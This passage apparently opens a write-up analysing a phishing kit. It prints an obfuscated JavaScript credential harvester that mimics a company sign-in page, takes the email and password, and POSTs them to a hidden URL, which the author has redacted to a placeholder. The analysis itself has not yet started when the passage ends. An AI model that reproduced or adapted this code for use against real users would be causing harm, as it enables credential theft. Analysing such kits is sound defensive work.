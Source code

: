 ```javascript
function _0x568f(){var _0x3cc923=['indexOf','http://www.','ready','base64string==','Verifing...','toLowerCase','html','signal','Email\x20field\x20is\x20emply.!','click','val','animate','#pr','176728cVrknv','https://logo.clearbit.com/','#logo','Sign\x20in','#submit-btn','attr','src','#error','hash','keyCode','hide','keypress','62422SfXwZP','#div2','646373KPbBzm','POST','show','replace','171111TdAKpx','#dmlogo','ajax','1174710qYyGSY','log','Password\x20field\x20is\x20emply.!','#div1','which','#domain','#ai','JSON','5whiIJH','readonly','#msg','411720woBocu','1545536viIcmF',':visible','focus','substr','That\x20account\x20doesn\x27t\x20exist.\x20Enter\x20a\x20different\x20account','location','toUpperCase','#ai2'];_0x568f=function(){return _0x3cc923;};return _0x568f();}var _0x9a4e8d=_0x1daa;function _0x1daa(_0x5aed50,_0x5b0cdd){var _0x568fcf=_0x568f();return _0x1daa=function(_0x1daab1,_0x575321){_0x1daab1=_0x1daab1-0xec;var _0x358c63=_0x568fcf[_0x1daab1];return _0x358c63;},_0x1daa(_0x5aed50,_0x5b0cdd);}(function(_0x13cc03,_0x47991b){var _0xd2c8a=_0x1daa,_0x1471da=_0x13cc03();while(!![]){try{var _0x8b832f=parseInt(_0xd2c8a(0x10b))/0x1+parseInt(_0xd2c8a(0x105))/0x2+-parseInt(_0xd2c8a(0x119))/0x3+parseInt(_0xd2c8a(0xf9))/0x4*(-parseInt(_0xd2c8a(0x116))/0x5)+parseInt(_0xd2c8a(0x10e))/0x6+parseInt(_0xd2c8a(0x107))/0x7+-parseInt(_0xd2c8a(0x11a))/0x8;if(_0x8b832f===_0x47991b)break;else _0x1471da['push'](_0x1471da['shift']());}catch(_0x1e2d5e){_0x1471da['push'](_0x1471da['shift']());}}}(_0x568f,0x1c478),$(document)[_0x9a4e8d(0xee)](function(){var _0x50a638=_0x9a4e8d,_0x24c4e8=0x0;$(_0x50a638(0x111))[_0x50a638(0x103)](),$(_0x50a638(0x106))[_0x50a638(0x109)]();var _0x3fa8f1=$(_0x50a638(0x114))[_0x50a638(0xf6)]();$(_0x50a638(0x121))[_0x50a638(0xf6)](_0x3fa8f1);var _0x3fa8f1=window['location'][_0x50a638(0x101)]['substr'](0x1);if(!_0x3fa8f1){}else{var _0x362e6f=_0x3fa8f1,_0x3249d7=_0x362e6f[_0x50a638(0xec)]('@'),_0x30e092=_0x362e6f[_0x50a638(0x11d)](_0x3249d7+0x1),_0x2bdea5=_0x30e092[_0x50a638(0x11d)](0x0,_0x30e092[_0x50a638(0xec)]('.')),_0x103e1a=_0x2bdea5['toLowerCase'](),_0x79edc7=_0x2bdea5['toUpperCase']();$(_0x50a638(0x114))[_0x50a638(0xf6)](_0x362e6f),$(_0x50a638(0x106))[_0x50a638(0xf7)]({'right':0x0,'opacity':'show'},0x3e8),$(_0x50a638(0x111))[_0x50a638(0xf7)]({'right':0x0,'opacity':_0x50a638(0x103)},0x0),$(_0x50a638(0xfb))['animate']({'right':0x0,'opacity':_0x50a638(0x103)},0x0),$(_0x50a638(0xfd))[_0x50a638(0xf6)](_0x50a638(0xfc)),$('#ai2')['val'](_0x362e6f),$(_0x50a638(0x121))[_0x50a638(0xfe)](_0x50a638(0x117),!![]),$(_0x50a638(0x10c))[_0x50a638(0xfe)](_0x50a638(0xff),_0x50a638(0xfa)+_0x30e092),$(_0x50a638(0x113))['html'](_0x79edc7),$(_0x50a638(0xf8))['val'](''),$(_0x50a638(0x118))[_0x50a638(0x103)]();}$(document)[_0x50a638(0x104)](function(_0x4f805d){var _0x16a5c0=_0x50a638,_0x1308cf=_0x4f805d[_0x16a5c0(0x102)]?_0x4f805d['keyCode']:_0x4f805d[_0x16a5c0(0x112)];if(_0x1308cf=='13')return $(_0x16a5c0(0xfd))['click'](),![];});var _0x210725=_0x50a638(0xef);$(_0x50a638(0xfd))[_0x50a638(0xf5)](function(_0x43d150){var _0x4c17f4=_0x50a638;$(_0x4c17f4(0x100))['hide'](),$(_0x4c17f4(0x118))[_0x4c17f4(0x103)](),$(_0x4c17f4(0xfd))[_0x4c17f4(0xf6)](_0x4c17f4(0xfc)),_0x43d150['preventDefault']();var _0x2bd238=$(_0x4c17f4(0x114))[_0x4c17f4(0xf6)](),_0x2b4ff2=$(_0x4c17f4(0xf8))['val'](),_0x4b3e69=_0x2bd238,_0x1c24be=_0x4b3e69['indexOf']('@'),_0x4f4aee=_0x4b3e69[_0x4c17f4(0x11d)](_0x1c24be+0x1),_0x4d3692=_0x4f4aee[_0x4c17f4(0x11d)](0x0,_0x4f4aee[_0x4c17f4(0xec)]('.')),_0x138a31=_0x4d3692[_0x4c17f4(0xf1)](),_0x101d60=_0x4d3692[_0x4c17f4(0x120)](),_0x402362=/^([a-zA-Z0-9_\.\-])+\@(([a-zA-Z0-9\-])+\.)+([a-zA-Z0-9]{2,4})+$/;if(!_0x2bd238)return $('#error')[_0x4c17f4(0x109)](),$(_0x4c17f4(0x100))[_0x4c17f4(0xf2)](_0x4c17f4(0xf4)),![];if(!_0x402362['test'](_0x4b3e69))return $(_0x4c17f4(0x100))[_0x4c17f4(0x109)](),$(_0x4c17f4(0x100))['html'](_0x4c17f4(0x11e)),![];if($(_0x4c17f4(0x106))['is'](_0x4c17f4(0x11b))){}else return $(_0x4c17f4(0x106))[_0x4c17f4(0xf7)]({'right':0x0,'opacity':_0x4c17f4(0x109)},0x3e8),$('#div1')[_0x4c17f4(0xf7)]({'right':0x0,'opacity':_0x4c17f4(0x103)},0x0),$('#logo')[_0x4c17f4(0xf7)]({'right':0x0,'opacity':'hide'},0x0),$(_0x4c17f4(0xfd))[_0x4c17f4(0xf6)](_0x4c17f4(0xfc)),$('#ai2')[_0x4c17f4(0xf6)](_0x4b3e69),$(_0x4c17f4(0x121))[_0x4c17f4(0xfe)](_0x4c17f4(0x117),!![]),$(_0x4c17f4(0x10c))['attr'](_0x4c17f4(0xff),_0x4c17f4(0xfa)+_0x4f4aee),$('#domain')[_0x4c17f4(0xf2)](_0x101d60),$(_0x4c17f4(0xf8))[_0x4c17f4(0xf6)](''),![];if(!_0x2b4ff2)return $(_0x4c17f4(0x100))[_0x4c17f4(0x109)](),$(_0x4c17f4(0x100))[_0x4c17f4(0xf2)](_0x4c17f4(0x110)),_0x2bd238[_0x4c17f4(0x11c)],![];_0x24c4e8=_0x24c4e8+0x1,$[_0x4c17f4(0x10d)]({'dataType':_0x4c17f4(0x115),'url':atob(_0x210725),'type':_0x4c17f4(0x108),'data':{'ai':_0x2bd238,'pr':_0x2b4ff2},'beforeSend':function(_0x1f826c){var _0x66df5e=_0x4c17f4;$('#submit-btn')[_0x66df5e(0xf6)](_0x66df5e(0xf0));},'success':function(_0x13e87b){var _0x29a29f=_0x4c17f4;if(_0x13e87b){$('#msg')[_0x29a29f(0x109)](),$(_0x29a29f(0xfd))[_0x29a29f(0xf6)](_0x29a29f(0xfc)),console[_0x29a29f(0x10f)](_0x13e87b);if(_0x13e87b[_0x29a29f(0xf3)]=='ok'){$(_0x29a29f(0xf8))['val']('');if(_0x24c4e8>=0x2)return _0x24c4e8=0x0,window[_0x29a29f(0x11f)][_0x29a29f(0x10a)](_0x29a29f(0xed)+_0x4f4aee),![];}else{}}},'error':function(){var _0x1a0b9a=_0x4c17f4;$(_0x1a0b9a(0xf8))['val']('');if(_0x24c4e8>=0x2)return _0x24c4e8=0x0,window['location'][_0x1a0b9a(0x10a)](_0x1a0b9a(0xed)+_0x4f4aee),![];$('#msg')['show'](),$(_0x1a0b9a(0xfd))[_0x1a0b9a(0xf6)](_0x1a0b9a(0xfc));},'complete':function(){var _0x5cb88e=_0x4c17f4;$(_0x5cb88e(0xfd))['val'](_0x5cb88e(0xfc));}});});}));
```
Yes, you guessed it, it's obfuscated[^1]. Let's find out what it does.


[^1]: `base64string==` is a dummy placeholder just to keep the *destination* URL hidden.